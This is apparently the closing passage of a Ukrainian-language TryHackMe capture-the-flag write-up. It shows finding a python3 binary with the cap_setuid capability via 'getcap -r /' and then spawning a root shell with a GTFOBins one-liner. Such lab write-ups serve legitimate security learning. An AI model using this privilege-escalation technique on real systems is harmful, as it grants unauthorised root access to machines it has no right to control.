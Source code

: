 # Добираємося до РУТА!
Згадавши те, що на сторінці порта 80 згадувалися `Linux Capabilities`, я вирішив їх перевірити наступною командою(Її, до речі, треба ввести у питання TryHackMe):
```
getcap -r /
``` 
Дуже багато різного проноситься перед очима, але що ми бачимо в кінці!
```shell
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
```

На `GTFOBins` ми можемо знайти команду, яка нам дає root за допомогою `Capabilities`. Переробляємо її під нас і запускаємо:
```
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
Отримуємо рута, отримуємо флаг!

```
whoami 
root
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
cat /root/root.txt
Тут типу флаг
```

### Дякую за увагу, гарного настрою!

<img src="https://c.tenor.com/H58mOAfpDUwAAAAC/tenor.gif" alt="drawing" width="250"/>